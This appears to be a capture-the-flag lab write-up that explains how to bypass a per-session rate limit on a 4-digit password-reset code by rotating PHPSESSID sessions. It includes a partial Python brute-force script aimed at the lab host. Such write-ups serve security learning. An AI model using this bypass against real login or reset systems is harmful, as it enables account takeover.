 The password reset system works by:

- Sending a **4-digit recovery code** linked to a session identified by `PHPSESSID`.
- Enforcing an **8-attempt rate limit per session** to prevent brute forcing.

### Rate Limit Behavior Observed

Using **Burp Suite** to intercept HTTP requests, the server responses included a header:
>   Rate-Limit-Pending: X


Which decremented from 8 down to 0 with each recovery code attempt. When it hit 0, no more tries were allowed in that session.

### Bypass Technique: Session Rotation

The key insight:

- The 4-digit code is valid for **180 seconds globally**, but each `PHPSESSID` session enforces its own 8-attempt rate limit.
- By requesting a **new password reset**, one obtains a **fresh PHPSESSID**, effectively resetting the rate limit.
- This enables **brute forcing the code by rotating sessions every 7 attempts**, staying just below the limit threshold.

### Automation Script (Python requests)

To efficiently exploit this, I wrote a Python script that:

- Requests a password reset to acquire a new session and code.
- Attempts recovery codes from `0000` to `9999`.
- Rotates sessions every 7 attempts.
- Detects a successful attempt by checking for a change in the response's word count (as the page content changes on success).

```py
import requests

RESET_URL = "http://10.10.37.199:1337/reset_password.php"
EMAIL = "tester@hammer.thm"
CODE_LENGTH = 4
ROTATION_LIMIT = 7

def get_new_session():
    session = requests.Session()
    # Trigger password reset to get new PHPSESSID and code tied to this session
    response = session.post(RESET_URL, data={"email": EMAIL})
    if response.status_code != 200:
        print("Warning: Reset request failed.")
    return session

def get_baseline_wordcount(session):
    # Use dummy code '0000' to get baseline word count for current session
    response = session.post(RESET_URL, data={"recovery_code": "0000", "s": 180})
    return len(response.text.split())

def try_code(session, code):
    data = {"recovery_code": code, "s": 180}
    response = session.post(RESET_URL, data=data)
    return response.text, len(response.text.split())

def main():
    codes = [f"{i:04d}" for i in range(10000)]
    session = get_new_session()
    baseline_wordcount = get_baseline_wordcount(session)
    print(f"Baseline word count: {baseline_wordcount}")

```